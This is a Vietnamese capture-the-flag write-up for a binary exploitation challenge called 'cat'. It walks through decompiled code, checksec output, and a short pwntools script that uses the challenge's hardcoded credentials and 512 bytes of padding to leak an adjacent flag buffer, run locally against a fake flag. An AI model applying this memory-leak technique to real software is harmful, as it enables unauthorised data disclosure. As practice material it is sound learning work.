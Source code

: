  **Writeup Cat from Pwn** 
 
 **#1 Tìm lỗi**
 
     Em sẽ dùng lệnh 'file' để tìm thông tin của file và có kết quả như sau
     
     ![image](https://user-images.githubusercontent.com/116651808/212807726-3f02e914-3565-49b9-8246-2cc62cf8145a.png)
     
     Em sẽ được file được viết là file ELF 64bit nên em mở file cat bằng ida 64 sẽ thấy soure của hàm main như sau:
     
   int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h]
  int v5; // [rsp+Ch] [rbp-4h]

  init(argc, argv, envp);
  read_flag();
  printf("Username: ");
  v4 = read(0, username, 0x20uLL);
  if ( username[v4 - 1] == 10 )
    username[v4 - 1] = 0;
  printf("Password: ");
  v5 = read(0, password, 0x20uLL);
  if ( password[v5 - 1] == 10 )
    password[v5 - 1] = 0;
  if ( !strcmp(username, "KCSC_4dm1n1str4t0r") && !strcmp(password, passwd) )
  {
    puts("Logged in!");
    printf("Your secret: ");
    read(0, secret, 0x200uLL);
    printf("Saving secret \"%s\"...\n", secret);
    puts("Done! Exiting...");
  }
  else
  {
    puts("Unauthorized access is forbidden!");
  }
  return 0;
}
    Đọc hàm main em thấy chương trình sẽ tiến hành thực hiện hàm read_flag()(Kiểm tra hàm này thì thấy đã lưu giá trị flag vào biến flag), sau đó tiếp tục cho người dùng
    nhập username và password rồi đem đi so sánh với giá trị đã có sẵn. Nếu đúng thì tiếp tục cho phép nhập vào biến secret và in biến secret rồi kết thúc chương trình.
    Đến đây em nghĩ đến nhập buffer từ biến secret đến biến flag. Em dùng lệnh 'checksec' trong gdb để kiểm tra xem có buffer được không.
    ![image](https://user-images.githubusercontent.com/116651808/212809077-1438d894-e51b-4018-b5fe-4cf951058cc3.png)
    Em thấy được Canary đang disabled nên sẽ tận dụng lỗi buffer over flow được
   
   
   
 **2. Ý tưởng**
    Sau khi đọc source thì em sẽ nhập KCSC_4dm1n1str4t0r cho username và wh3r3_1s_th3_fl4g cho password.
    Dùng gdb thì thấy được khoảng cách từ biến flag đến secret là 512 nên sẽ nhập 512 ký tự cho biến secret
    
    
  **3. Viết script**
  
    from pwn import *
    r = process("./cat")

    r.recvuntil("Username: ")
    r.sendline("KCSC_4dm1n1str4t0r")
    r.recvuntil("Password: ")
    r.sendline("wh3r3_1s_th3_fl4g")
    r.sendline("a"*512)
    r.interactive()
    
 **4. Lấy flag**
   ![image](https://user-images.githubusercontent.com/116651808/212811067-c7f63163-7b62-4d60-a8fb-a65951c3a539.png)
    flag: KCSC{Th1s_1s_f4k3_fl4g} (Chạy trên local nên đây là flag em tự tạo).
